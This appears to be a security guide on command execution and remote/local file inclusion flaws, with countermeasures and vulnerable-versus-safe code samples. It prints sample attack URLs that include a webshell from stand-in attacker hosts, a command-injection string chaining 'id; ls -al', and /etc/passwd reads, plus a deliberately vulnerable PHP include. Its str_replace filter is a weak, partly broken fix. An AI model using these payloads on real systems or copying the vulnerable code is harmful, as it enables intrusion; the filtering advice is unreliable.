


## 1. Vulnerability Description
* Systems such as web servers and database servers constantly analyze and process user requests and return results. Hackers attempt attacks in a variety of ways to mishandle applications that are working on the server, allowing them to execute the commands they want. As such, the execution of any command within the system is called to as an arbitrary command execution vulnerability.


* This vulnerability is mainly due to the failure to validate input values and may occur when:
  * If the file of the path entered is enclosed and processed by the Server Side Script (SSSI)
  * The value entered is used as a paramter of function associated with the execution of system commands within the Server Side Script.
* Hackers exploit this vulnerability to attempt additional attacks such as installing backdoor (zombie PCs, etc.) and viewing/manipulating/deleting databases, and tampering with the homepage, and are classified as high-risk vulnerabilities.

### 1.1. If the file of the input path is included and processed by Server Side Script
* As one of the methods of calling another page, the file or URL received as a parameter is recognized as Server Side Script and processed.<br>
For example, when the path to the page you want to open with a page paramter such as http://www.target.com/index.php?page=regist.php comes in, and 
if index.php is coded as ‚include ‚$page‛; ‛ and you change the page variable to the path of the previously uploaded php(php, but the extension is uploaded as jpg to avoid the logic that prohibits uploading) file, the command is executed according to the file contents.

```
ex 1) http://www.target.com/index.php?page=../upfile/member/attack.jpg
ex 2) http://www.target.com/index.php?page=http://attacker.com/attack.gif
```

### 1.2. If the value entered is used as a parameter of function associated with the execution of system commands within the Server Side Script.
* If the entered value is contained within a function that has the ability to execute system commands, you can execute multiple commands with the appropriate combination of the following special characters:

```
List of key special characters → ;(semicolon), |(pipe), &(ampersand), `(back quotation-mark)
(ex) http://www.target.com/technote/main.cgi?cmd=down&file=a.jpg|id; ls -al
```

### 1.3. RFI & LFI Vulnerabilities (Remote File Inclusion & Local File Inclusion)
* The RFI(Remote File Inclusion) vulnerability is a remotely executable vulnerability in which an attacker passes malicious scripts to the server and allows malicious code to be executed through that page. PHP is caused by a failure to properly check parameter values during delivery of $_GET, $_POST, and $_cookie values.
* The LFI(Local File Inclusion) vulnerability is similar to RFI, but differ in that the files are located on the target server.

* Ex. vulnerable.php (RFI vulnerability Inclusion)

```PHP
<?php
   if (isset($_GET['COLOR'])) {
      include($_GET['COLOR'] . '.php');
   }
?>
```

* Ex. HTML

```HTML
<form method="get">
   <select name="COLOR">
      <option value="red">red</option>
      <option value="blue">blue</option>
   </select>
   <input type="submit">
</form>
```

* Any command may be inserted because the 'COLOR' parameter does not have a filtering process. This enables the following attacks:

```
ex 1) http://www.target.com/vulnerable.php?COLOR=http://evil.example.com/webshell.txt?
ex 2) http://www.target.com/vulnerable.php?COLOR=C:\\ftp\\upload\\exploit
ex 3) http://www.target.com/vulnerable.php?COLOR=C:\\notes.txt%00
ex 4) http://www.target.com/vulnerable.php?COLOR=/etc/passwd%00
```


## 2. How to check vulnerability
* There are many programs that generate system commands using external inputs, such as parameters on the command line or stream inputs.<br>
In this case, however, the external input string is unreliable, and without proper handling, an attacker can execute the desired command.



## 3. Vulnerability Countermeasure
### 3.1. Validation of input values
* Check if there are any input values that correspond to unacceptable shapes and ranges.

### 3.2 External URL Opening Limit Setting
* For PHP, set the value of ‚allow_url_fopen‛ and ‚allow_url_include‛ to Off within the php.ini file to disable access to external URLs.

### 3.3. Programming input values not to be used as paramters for the following functions

```
include(), include_one(), require(), require_once(), fopen(), file(), file_get_contents()
```

* In particular, the following functions should not be used and should be more attentive than above if they should be used:

```
exec(), shell_exec(), system(), eval(), passthru(), preg_replace()
```

Language | Weak function
-- | --
C | system(), exec(), strcpy(), strcat(), sprintf(), etc
Java | system.* (system.runtime), etc
Perl | open(), sysopen(), glob(), system(), etc
PHP | require(), include(), eval(), exec(), passthru(), system(), fopen(), etc
Python | exec(), eval(), execfile(), compile(), input(), etc


### 3.4 Restrictions on Remote Command Execution Using RFI & LFI Vulnerabilities
* [PHP] Character filtering (../)

```PHP
str_replace(".", "", $path);
str_replace("/", "", $filename);
```

* Restrictions execution by modifying the php.ini file

```
...
allow_url_fopen = Off
allow_url_include = Off
display_errors = Off
...
```

## 4. Sample Code
* Vulnerable Code

```JAVA
...
public void f() throws IOException {
    Properties props = new Properties();
    String fileName = "file_list";
    FileInputStream in = new FileInputStream(fileName);
    props.load(in);
    String version = props.getProperty("dir_type");
    String cmd = new String("cmd.exe /K \"rmanDB.bat \"");
    Runtime.getRuntime().exec(cmd + " c:\\prog_cmd\\" + version);
    ...
}
```

* The example above uses the cmd.exe command to perform the rmanDB.bat batch command, and the externally transmitted dir_type value is used to generate the command string as a parameter for rmanDB.bat. 
* External attackers may perform unusual functions if the dir_type is not the intended parameter when delivering unintended strings.

* Safe Code

```JAVA
...
public void f() throws IOException {
    Properties props = new Properties();
    String fileName = "file_list";
    FileInputStream in = new FileInputStream(fileName);
    props.load(in);
    String version[] = {"1.0" , "1.1"};
    int versionSelection = Integer.parseInt(props.getProperty("version"));
    String cmd = new String("cmd.exe /K \"rmanDB.bat \"");
    String vs = "";
 
    // select a value from the list specified by the external input value.
    if (versionSelection == 0)
        vs = version[0];
    else if (versionSelection == 1)
        vs = version[1];
    else
        vs = version[1];
    Runtime.getRuntime().exec(cmd + " c:\\prog_cmd\\" + vs);
    ...
}
```